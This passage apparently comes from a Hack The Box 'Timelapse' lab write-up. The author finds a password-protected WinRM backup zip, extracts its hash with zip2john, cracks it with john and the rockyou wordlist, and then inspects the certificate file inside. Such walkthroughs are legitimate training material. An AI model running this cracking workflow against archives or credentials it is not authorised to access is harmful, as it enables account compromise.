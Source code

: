 The Dev directory has a winrm_backup.zip file but its password protected

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ ls   
winrm_backup.zip
                                                                                                                                                                                                                   
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```

I'll brute force the zip file 

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ zip2john winrm_backup.zip > hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
                                                                                                                                                                                                                   
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ john -w=/home/mark/Documents/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-02-07 04:26) 1.724g/s 5981Kp/s 5981Kc/s 5981KC/s surkerior..suppamas
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Now with the password i can unzip the file

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ file legacyy_dev_auth.pfx 
legacyy_dev_auth.pfx: data
                                                                                                                                                                                                                   
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ strings legacyy_dev_auth.pfx    
_       Er
C(!,
4bz'
`o<l
|Y4W
I0{Q
L(vqQ#
{q[l"8
`+$DOC
hK*y
;5UERr
X!+3
&JCy
$-1f
NAM'u
"-r$$
Legacyy0
211025140552Z
311025141552Z0
Legacyy0
r"*J0:
cZK3
".G,
x0v0
```